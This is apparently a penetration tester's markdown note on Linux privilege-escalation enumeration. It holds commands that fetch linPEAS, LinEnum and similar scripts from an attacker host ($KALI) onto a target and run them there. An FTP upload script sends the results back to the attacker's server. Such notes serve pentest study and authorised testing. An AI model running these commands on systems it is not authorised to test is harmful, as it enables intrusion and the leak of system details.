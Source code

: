 linPEAS.sh
LineEnum.sh
linux-exploit-suggester.sh 
linuxprivchecker.py 


#### Download to Kali

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh && wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py && wget https://raw.githubusercontent.com/etc5had0w/suider/main/suider.sh && wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py

```

```bash - kali
echo $KALI
```

```bash - kali
mousepad AutoUpload.sh
```

#### AutoUpload.sh - ==REMEMBER TO CHANGE $KALI TO IP!==
```bash - kali
#!/bin/sh
HOST='$KALI'
USER='anonymous'
PASSWD='anonymous'


ftp -n $HOST <<END_SCRIPT
quote USER $USER
quote PASS $PASSWD
put LinEnum.txt*
put linpeas.txt
put linux-exploit-suggester.txt
put linuxprivchecker.txt
put suider.sh
put suid3num.txt
quit
END_SCRIPT
exit 0
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

#### Transfer to target - bash - ==CHANGE $KALI TO IP!==
```bash - target
mkdir /tmp/Tools && cd /tmp/Tools && wget http://$KALI:80/linpeas.sh && wget http://$KALI:80/LinEnum.sh && wget http://$KALI:80/linux-exploit-suggester.sh && wget http://$KALI:80/linuxprivchecker.py && wget http://$KALI:80/AutoUpload.sh && wget http://$KALI:80/suider.sh && wget http://$KALI:80/suid3num.py && chmod +x linpeas.sh && chmod +x LinEnum.sh && chmod +x linux-exploit-suggester.sh && chmod +x AutoUpload.sh && chmod +x suider.sh && chmod +x suid3num.py
```

#### Execute tools
```bash - target
./linpeas.sh -a > linpeas.txt & ./LinEnum.sh -t -r LinEnum.txt & ./linux-exploit-suggester.sh > linux-exploit-suggester.txt & python linuxprivchecker.py -w -o linuxprivchecker.txt & ./suider.sh > suider.txt & python suid3num.py > suid3num.txt
```

#### Start FTP server and upload results
```bash - kali
python -m pyftpdlib -p 21 --write
```

```bash - target
./AutoUpload.sh
```

[[3._Automated Tools]]

==Remember you can use [[gcc]] to locally compile if needed!==